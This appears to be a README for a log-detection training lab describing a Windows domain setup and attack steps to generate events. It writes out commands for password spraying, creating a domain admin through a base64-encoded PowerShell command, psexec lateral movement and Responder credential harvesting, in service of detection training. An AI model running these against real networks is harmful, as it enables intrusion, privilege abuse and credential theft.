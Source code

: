 # Lab Setup
For more setup scripts and cool stuff, check out the fork of https://github.com/CyberConTraining/LogDetectionLab by @BoredHackerBlog

## Infrastructure
- Your infrastructure can really be hosted anywhere.
  - Locally via vmware, virtualbox, etc
  - In the cloud via Azure, GCP, AWS
  - Prod? (j/k)

- They should be in all the same network 

### 1. Windows Domain Controller
- Specs
  - supported OS version
  - [Logmira](https://github.com/Blumira/Logmira) (Either reduced or full verbosity is fine)

### 2. Windows Endpoint
- Joined to above domain
- Installs
  - Download and install [Wireshark](https://www.wireshark.org/)
  - Clone [Domain Password Spray from @dafthack](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)
  - Download both usernames.txt and passlist.txt from this github directory
  - Sysinternals Suite - https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite

### 3. Optional - Whatever you need for SIEM?
In my case you will see in the demos that I'm using a Blumira sensor. This is an Ubuntu box with a docker container that has a [Blumira](https://www.blumira.com) sensor installed on it. Because this isn't a SIEM training, it's difficult to go through a full lab setup of something like ELK or Splunk. 

We will cover in all lab demos finding event IDs in windows event viewer, but then also the concept of what they would look like in a SIEM as well. For in person trainings, everyone will be provided with logins to the Blumira platform during the class.

## Scripts/Commands

1. [Domain Password Spray from @dafthack](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)
   - Right-click, run powershell as admin
```
CD **directory where script has been saved**

Get-ExecutionPolicy

Set-ExecutionPolicy Unrestricted

Import-Module .\DomainPasswordSpray.ps1

Invoke-DomainPasswordSpray -UserList userlist.txt -Domain production.local -PasswordList passlist.txt
```
2. Creating a Domain Admin
- Create a DNDUsers OU in Active Directory Users & Computers on the DC
```
Get-ExecutionPolicy

Import-Module ActiveDirectory

$command = "New-ADUser -Name 'HP Lovecraft' -GivenName 'HP Lovecraft' -SamAccountName 'hplovecraft' -UserPrincipalName 'hplovecraft@miratime.org' -Path 'OU=TestUsers,DC=miratime,DC=org' -AccountPassword(Read-Host -AsSecureString 'Type Password for User')" 

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

$encodedCommand = [Convert]::ToBase64String($bytes) 

powershell.exe -EncodedCommand $encodedCommand

Enable-ADAccount -Identity "hplovecraft"

Add-ADGroupMember -Identity “Domain Admins” -Members hplovecraft
```
3. Data Exfil & Network Forensics


4. Lateral Movement
- Psexec add user to another host
```
CD into psexec directory
psexec.exe \\MagicRainbowPC.domain.local -i -u DNDUser -p passwordhere cmd
net user MyNewUser MyPassword#@$ /add
net localgroup administrators MyNewUser /add
```

5. Credential Harvesting
- Using Responder
```
Ifconfig
responder -I eth1 -wrf 
Log in to win10 test box
Go to //blahblahblah
```
